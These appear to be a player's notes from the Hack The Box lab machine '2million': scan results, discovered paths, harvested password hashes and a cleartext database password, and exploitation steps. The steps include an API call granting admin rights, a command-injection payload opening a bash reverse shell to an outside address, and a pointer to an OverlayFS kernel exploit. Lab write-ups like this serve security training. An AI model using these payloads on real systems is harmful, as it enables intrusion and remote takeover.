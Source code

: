 | HOST         | PORT | PROTO | SERVICE | VERSION                 |
| ------------ | ---- | ----- | ------- | ----------------------- |
| 10.10.11.221 | 22   | tcp   | OpenSSH | 8.9p1 Ubuntu 3ubuntu0.1 |
| 10.10.11.221 | 80   | tcp   | nginx   |                         |


## HEADERS
---
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Mon, 10 Jul 2023 19:06:35 GMT
Content-Type: text/html
Content-Length: 162
Connection: keep-alive
Location: http://2million.htb/

---

## DIRECTORIES
---
* /login
* /register
* /logout               [--> /]
* /404
* /home                 [--> /]
* /api
* /invite
* /Database.php

---

## USERS
---
* admin SuperDuperPass123 (mysql)
* TRX `$2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq`
* TheCyberGeek `$2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK`

---

## NOTES
---
* `curl -X POST http://2million.htb/api/v1/invite/generate | jq .` to generate invite code, then decrypt b64
* `curl -s -q -H 'Cookie: PHPSESSID=89rv4g6hqp2arukuld37blggc5' 2million.htb/api/v1` returns route list
* `PUT /api/v1/admin/settings/update` with a json content-type, allows us to make ourselves admin to access other api routes 
```json
{"email": "wither@wither.wither", "is_admin": 1}
```
* `POST /api/v1/admin/vpn/generate` has a command injection vulnerability in 
```json
Content-Type: application/json
Content-Length: 88
{"username":"wither@wither.wither$(bash -c 'bash -i >& /dev/tcp/10.10.14.20/2222 0>&1')"}
```
* mysql pass in `.env` 
* ssh as admin
* `/var/mail/admin` says about OverlayFS CVE
* https://github.com/sxlmnwb/CVE-2023-0386
* `tar -cjvf CVE-2023-0386.tar.bz2 CVE-2023-0386` to zip
* `tar -xjvf CVE-2023-0386.tar.bz2` to unzip
---
